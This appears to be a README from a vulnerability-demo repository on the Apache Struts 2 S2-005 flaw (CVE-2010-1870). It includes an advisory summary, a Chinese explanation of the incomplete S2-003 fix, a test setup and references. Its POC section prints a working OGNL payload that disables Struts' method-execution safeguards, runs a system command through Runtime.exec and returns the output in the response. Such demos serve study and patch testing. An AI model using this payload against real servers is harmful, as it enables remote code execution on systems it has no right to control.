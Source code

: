# S2-005 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote server context manipulation                           |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to [Struts 2.2.1](http://struts.apache.org/download.cgi#struts221) or read the following solution instructions carefully for a configuration change to mitigate the vulnerability |
| Affected Software       | Struts 2.0.0 - Struts 2.1.8.1                                |
| Original JIRA Ticket    | [WW-3470](https://issues.apache.org/jira/browse/WW-3470), [XW-641](http://jira.opensymphony.com/browse/XW-641) |
| Reporter                | Meder Kydyraliev, Google Security Team                       |
| CVE Identifier          | [CVE-2010-1870](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1870) |
| Original Description    | http://blog.o0o.nu/2010/07/cve-2010-1870-struts2xwork-remote.html |

## Problem

S2-005的出现时因为官方对S2-003的修补的不完全而导致。官方通过增加安全配置禁止静态方法调用（allowStaticMethodAcces）和类方法执行（MethodAccessor.denyMethodExecution）等安全配置来修补，但是该方式可以通过OGNL表达式控制开关。引用一句话：

> S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

## Environment

| Struts2 Version | struts-2.0.11.2        |
| --------------- | ---------------------- |
| Server          | Tomcat 6.0.9           |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC

<img src="img/image-20200824111849016.png" alt="image-20200824111849016" style="zoom:150%;" />

payload:

```java
?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023mycmd\u003d\'calc\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-005](https://cwiki.apache.org/confluence/display/WW/S2-005)

